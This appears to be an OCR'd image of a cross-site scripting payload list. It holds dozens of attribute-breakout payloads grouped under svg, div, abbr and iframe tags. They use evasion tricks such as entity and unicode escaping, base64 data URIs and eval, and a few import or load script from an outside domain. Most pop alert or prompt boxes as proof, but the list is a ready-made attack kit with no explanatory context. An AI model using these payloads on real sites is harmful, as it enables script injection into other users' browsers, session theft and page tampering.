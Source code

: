 ```
cgonzalo"><sVg/onload=confirm(8)>

cgonzalo"><sVg/onload=confirm(8)//

cgonzalo"><svg/onload=alert(String.fromCharCode(88,83,83))>

cgonzalo"><svg id=alert(1) onload=eval(id)>

cgonzalo"><svg><script href=data:,alert(1) /> (Firefox is the only browser which allows self closing script)

cgonzalo"><svg><animate onbegin=alert(1) attributeName=x dur=1s>

cgonzalo"><svg/onload=import(/\\Ǌ.₨/)>

cgonzalo"><svg/onload=alert%26%230000000040"1">

cgonzalo"><svg </onload ="1> (_=alert,_(1337)) "">

cgonzalo"><svg onload=prompt%26%230000000040document.domain)>

cgonzalo"><svg onload=prompt%26%23x000000028;document.domain)>

--- <div> ---

cgonzalo"><</div>script</div>>prompt(8)<</div>/script</div>>

cgonzalo"><div onpointerover="alert(45)">MOVE HERE</div>

cgonzalo"><div onpointerdown="alert(45)">MOVE HERE</div>

cgonzalo"><div onpointerenter="alert(45)">MOVE HERE</div>

cgonzalo"><div onpointerleave="alert(45)">MOVE HERE</div>

cgonzalo"><div onpointermove="alert(45)">MOVE HERE</div>

cgonzalo"><div onpointerout="alert(45)">MOVE HERE</div>

cgonzalo"><div onpointerup="alert(45)">MOVE HERE</div>

cgonzalo"><div><embed src=# onload=confirm(8)></div>

--- <abbr> ---

cgonzalo"><abbr onmouseleave=alert(9)>test_gc</abbr>

--- <iframe> ---

cgonzalo"><iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

\u0022><iframe\u002Fsrc\u003D\u0022data:text\u002Fhtml;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg\u003D\u003D\u0022>

\u0022><iframe/src="https://www.example.com/" style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(8)">

cgonzalo"><iframe src="https://isecauditors.com/,javascript:alert(1)//">

cgonzalo"><iframe/onload=write(8)>

cgonzalo"><iframe/srcdoc="<svg><script/href=//Ǌ.₨ />">

```